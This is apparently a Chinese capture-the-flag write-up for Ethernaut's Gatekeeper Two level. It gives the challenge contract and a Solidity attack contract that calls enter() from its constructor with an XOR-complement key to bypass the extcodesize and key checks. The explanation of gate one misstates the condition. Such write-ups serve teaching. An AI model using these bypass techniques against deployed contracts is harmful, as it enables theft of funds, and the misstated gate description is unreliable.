 #   Level 14 Gatekeeper Two
實例地址：`0xd01fDc770d466c5C21B76ce888A653fc3B56d3D4`

##  題目說明
守衛帶來了一些新的挑戰，同樣地，你需要注冊為參賽者才能通過這一關。

  可能會有用的資訊

*   回想一下你從上一個守衛那學到了什麽，第一道門是一樣的
*   第二道門的 assembly 關鍵字可以讓合約去存取 Solidity 非原生的功能。參見 Solidity Assembly。在這道門的 extcodesize 函式，可以用來得到給定地址的合約程式碼長度，你可以在 黃皮書 的第七章學到更多相關的資訊。
*   ^ 字元在第三個門裡是位元運算 (XOR)，在這裡是為了應用另一個常見的位元運算手段 (參見 Solidity cheatsheet)。Coin Flip 關卡也是一個想要破這關很好的參考資料。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

##  POC
該合約有三道要求須要達成即可，第一道發送交易者以及發送訊息者不能不同，我們使用合約呼叫即可，第二道要求呼叫者不能是智能合約，這個與第一道解決方式會發生矛盾。這邊解決方式是在合約建立同時呼叫就可以避免掉這個問題，第三道要求 `key` 與 地址取後 `8 bytes` 互次或需要為最大值，這邊解法我們將建立合約地址取後 `8 bytes`，再取補數幾可達成條件。

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Attack{
    address public target;

    
    constructor(address _target){
        target = _target;
        uint64 temp = ~uint64(bytes8(keccak256(abi.encodePacked(address(this)))));
        target.call(abi.encodeWithSignature("enter(bytes8)", bytes8(temp)));
    }

}
```